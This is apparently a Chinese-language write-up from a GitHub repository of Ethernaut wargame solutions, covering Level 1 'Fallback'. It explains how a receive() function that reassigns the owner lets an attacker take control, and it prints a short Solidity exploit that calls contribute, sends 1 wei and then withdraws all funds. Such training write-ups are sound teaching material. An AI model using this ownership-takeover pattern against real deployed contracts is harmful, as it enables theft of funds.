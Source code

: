 <div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions">back</a>)</p>

<img src="../imgs/levels/1-fallback.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 1 - Fallback</strong></h1>

</div>
<br>

文章: [Ethernaut Solutions | Level 1 - Fallback](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

目标是拿到这个合约的控制权，转出所有余额
<img src="../imgs/requirements/1-fallback-requirements.webp" width="800px"/>

## 漏洞

转出余额，直接调用 `withdraw` 函数，但是效用此函数受限于 `onlyOwner`，所以根源就是如何获取 `owner` 权限；仔细阅读合约，我们发现`receive` 函数中，可以重新设置 `owner` ； `receive` 函数，当合约在接收eth，且没有任何calldata的情况下，才会调用 `receive` 函数。  

```javascript
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

现在，我们只需弄清楚如何通过 `receive` 函数条件检测 —— `require` 即可。第一条件相当简单，我们只需要发送任意数量的ETH。第二条件要求我们首先调用 `contribute()` ，这样我们的余额就大于0。于是，我们就成为合约的新owner。  

## 解答

1. 首先调用 `contribute` 函数发送一些eth，以满足 `receive()` 函数中 `contributions[msg.sender] > 0` 的条件
2. 直接向合约发送一些eth来触发 `receive()` 函数
3. 提取所有资金

```javascript
        // send the minimum amount to become a contributor
        instance.contribute{value: 0.0001 ether}();

        // send directly to the contract 1 wei, this will allow us to become the new owner
        (bool sent, ) = address(instance).call{value: 1 wei}("");
        require(sent, "Failed to send Ether to the Fallback");
        // now that we are the owner of the contract withdraw all the funds
        instance.withdraw();
```

## 要点

- `receive` 和 `fallback` 函数的用法
- 永远不要在 `fallback/receive` 函数中实现关键逻辑

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>